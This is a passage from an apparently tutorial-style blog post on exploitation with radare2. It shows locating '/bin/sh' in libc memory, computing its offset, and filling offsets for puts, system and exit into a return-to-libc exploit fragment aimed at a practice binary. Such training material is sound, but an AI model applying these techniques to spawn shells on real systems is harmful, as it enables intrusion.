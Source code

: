 ```
                        <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
                          <tr style="height: 19.8594px;">
                            <td style="height: 19.8594px;">
                              <span style="color: #468ee6;">[0x080483d0]></span> / /bin/sh<br /> Searching 7 bytes from 0x08048000 to 0xffd50000: 2f 62 69 6e 2f 73 68<br /> Searching 7 bytes in [0x8048000-0x8049000]<br /> hits: 0<br /> Searching 7 bytes in [0x8049000-0x804a000]<br /> hits: 0 <..truncated..> Searching 7 bytes in [0xf77aa000-0xf77ab000]<br /> hits: 0<br /> Searching 7 bytes in [0xffd2f000-0xffd50000]<br /> hits: 0<br /> 0xf7700768 hit1_0 .b/strtod_l.c-c<strong><span style="color: #00ccff;">/bin/sh</span></strong>exit 0canonica.
                            </td>
                          </tr>
                        </table>
                      </div>
                      
                      <p>
                        r2 found <code>"/bin/sh"</code> in the memory. Now let&#8217;s calculate its offset from <em>libc </em>base:
                      </p>
                      
                      <div style="overflow-x: auto; margin: 0 0 20px;">
                        <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
                          <tr style="height: 19.8594px;">
                            <td style="height: 19.8594px;">
                              <span style="color: #468ee6;">[0x080483d0]></span> dmm~libc<br /> 0xf7599000 /usr/lib32/libc-2.25.so<br /> <span style="color: #468ee6;">[0x080483d0]></span> ?X 0xf7700768-0xf7599000<br /> 167768
                            </td>
                          </tr>
                        </table>
                      </div>
                      
                      <p>
                        We found that the offset of <code>"/bin/sh"</code> from the base of <em>libc</em> is 0x167768. Let&#8217;s fill it in our exploit and move to the last part.
                      </p>
                      
                      ```python
...

# Offsets
offset_puts = 0x00062710 
offset_system = 0x0003c060 
offset_exit = 0x0002f1b0
offset_str_bin_sh = 0x167768  

...
```

                    </div>
                    

 [1]: https://www.megabeets.net/a-journey-into-radare-2-part-1/
 [2]: https://en.wikipedia.org/wiki/NX_bit
 [3]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
 [4]: https://en.wikipedia.org/wiki/Call_stack
 [5]: https://en.wikipedia.org/wiki/Buffer_overflow
 [6]: https://en.wikipedia.org/wiki/Return-oriented_programming
 [7]: https://en.wikipedia.org/wiki/X86_calling_conventions
 [8]: https://www.megabeets.n./r2_part1_2.png
 [9]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2
 [10]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2.c
 [11]: https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries
 [12]: https://en.wikipedia.org/wiki/Position-independent_code
 [13]: https://tk-blog.blogspot.co.il/2009/02/relro-not-so-well-known-memory.html
 [14]: https://reverseengineering.stackexchange.com/a/16115/18698
 [15]: https://www.megabeets.n./mainsym.png
 [16]: https://www.megabeets.n./beetsym.png
 [17]: https://www.megabeets.n./tumblr_m5vxpy8Cs41qfoh4t.gif
 [18]: https://en.wikipedia.org/wiki/De_Bruijn_sequence
 [19]: https://en.wikipedia.org/wiki/C_standard_library
 [20]: https://en.wikipedia.org/wiki/Return-to-libc_attack
 [21]: https://en.wikipedia.org/wiki/Shellcode